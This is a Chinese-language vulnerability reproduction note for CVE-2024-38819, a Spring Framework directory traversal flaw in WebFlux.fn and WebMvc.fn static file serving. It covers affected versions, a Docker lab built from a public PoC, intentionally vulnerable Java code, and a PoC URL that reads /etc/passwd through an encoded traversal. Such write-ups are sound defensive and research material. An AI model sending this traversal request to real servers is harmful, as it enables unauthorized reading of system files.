 # Spring Framework 特定条件下目录遍历漏洞 CVE-2024-38819

## 漏洞描述

Spring 框架是 Java 平台的一个开源的全栈应用程序框架和控制反转容器实现。2024 年 10 月，Spring 官方发布公告披露 CVE-2024-38819 Spring Framework 特定条件下目录遍历漏洞。该漏洞类似 CVE-2024-38816，当 Spring 通过 WebMvc.fn 或者 WebFlux.fn 对外提供静态文件时，攻击者可构造恶意请求遍历读取系统上的文件。

参考链接：

- https://github.com/masa42/CVE-2024-38819-POC
- https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N&version=3.1
- https://spring.io/security/cve-2024-38819

## 漏洞影响

影响范围：

```
Spring Framework 5.3.0 - 5.3.40
Spring Framework 6.0.0 - 6.0.24
Spring Framework 6.1.0 - 6.1.13
其他更老或者官方已不支持的版本
```

安全版本：

```
Spring Framework 5.3.41
Spring Framework 6.0.25
Spring Framework 6.1.14
```

## 环境搭建

通过项目 [CVE-2024-38819-POC](https://github.com/masa42/CVE-2024-38819-POC) 搭建一个 Spring Boot 3.3.4（基于 Spring Framework 6.1.13） 漏洞环境：

```
git clone https://github.com/masa42/CVE-2024-38819-POC.git
cd vuln
docker build -t cve-2024-38819-poc .
docker run -d -p 8080:8080 --name cve-2024-38819-poc cve-2024-38819-poc
```

Dockerfile

```
# Build stage
FROM gradle:7.6.1-jdk17 AS build

WORKDIR /home/gradle/project
COPY --chown=gradle:gradle . .

RUN gradle build --no-daemon

# Execution stage
FROM openjdk:17-jdk-slim

WORKDIR /app
COPY --from=build /home/gradle/project/build/libs/*.jar app.jar

# Directory for storing static files
RUN mkdir /static
# Root directory for FileSystemResource
RUN mkdir /app/static
# Symbolic link from the FileSystemResource directory to the static files directory
RUN ln -s /static /app/static/link

EXPOSE 8080

ENTRYPOINT ["java", "-jar", "app.jar"]
```

启动环境后，访问 `http://your-ip:8080` 即可，无主页，显示 404。

## 漏洞复现

构建一段代码，使 Spring Framework 通过 WebFlux.fn 提供静态文件访问功能。build.gradle 中的 `dependencies` 使用了 `spring-boot-starter-webflux`，表明这是一个基于 Spring WebFlux 的项目，而非传统的 `spring-boot-starter-web`。

build.gradle

```
plugins {
    id 'org.springframework.boot' version '3.3.4'
    id 'io.spring.dependency-management' version '1.0.15.RELEASE'
    id 'java'
}

group = 'com.example'
version = '0.0.1-SNAPSHOT'
sourceCompatibility = '17'

repositories {
    mavenCentral()
}

dependencies {
    implementation 'org.springframework.boot:spring-boot-starter-webflux:3.3.4'
}

tasks.named('test') {
    useJUnitPlatform()
}

bootJar {
    mainClass.set('com.example.PathTraversalDemoApplication')
}
```

./src/main/java/com/example/PathTraversalDemoApplication.java

```java
package com.example;

import org.springframework.core.SpringVersion;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.context.annotation.Bean;
import org.springframework.core.io.FileSystemResource;
import org.springframework.web.reactive.function.server.RouterFunction;
import org.springframework.web.reactive.function.server.RouterFunctions;
import org.springframework.web.reactive.function.server.ServerResponse;

@SpringBootApplication
public class PathTraversalDemoApplication {

    public static void main(String[] args) {
        SpringApplication.run(PathTraversalDemoApplication.class, args);
    }

    @Bean
    public RouterFunction<ServerResponse> staticResourceRouter() {
        System.out.println("Spring Framework Version: " + SpringVersion.getVersion());
        return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
    }
}
```

poc：

```
http://your-ip:8080/static/link/%2e%2e/etc/passwd
```

![](images/Spring%20Framework%20特定条件下目录遍历漏洞%20CVE-2024-38819/image-20241218103537736.png)

## 漏洞修复

1. 建议更新至最新版本。
2. 排查代码中是否有类似使用，结合实际情况可确认是否受影响。
